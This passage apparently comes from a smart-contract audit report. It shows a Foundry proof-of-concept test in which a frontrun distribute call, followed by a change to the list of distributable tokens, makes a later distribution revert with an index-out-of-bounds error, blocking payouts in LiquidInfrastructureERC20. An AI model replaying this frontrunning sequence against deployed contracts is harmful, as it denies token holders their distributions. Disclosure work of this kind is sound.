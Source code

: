 ```soldity
        _managedNFTs[0] = address(nft);
        _approvedHolders[0] = address(1);
        _approvedHolders[1] = address(2);
        _distributableErc20s[0] = address(DAI);


        newErc20s[0] = address(DAI);
        nft.setThresholds(newErc20s, newAmounts);
        LiquidInfrastructureERC20 erc = new  LiquidInfrastructureERC20(
            _name, _symbol, _managedNFTs, _approvedHolders, _minDistributionPeriod, _distributableErc20s);
        erc.mint(address(1), 100e18);
        erc.mint(address(2), 100e18);


        // issue ==  change in desirable erc20s
        _distributableErc20s = new address[](2);
        _distributableErc20s[0] = address(DAI);
        _distributableErc20s[1] = address(USDC);
        newAmounts = new uint[](2);
        newErc20s = new address[](2);
        newErc20s[0] = address(DAI);
        newErc20s[1] = address(USDC);
        nft.setThresholds(newErc20s, newAmounts);


        deal(address(DAI), address(erc), 1000e18);
        deal(address(USDC), address(erc), 1000e18);
        vm.roll(block.number + 100);


        // frontrun tx
        erc.distribute(1);


        // victim tx
        erc.setDistributableERC20s(_distributableErc20s);


        // backrun tx
        vm.roll(block.number + _minDistributionPeriod);
        vm.expectRevert(); // Index out of bounds
        erc.distribute(1);
    }


}
```

### Tools Used
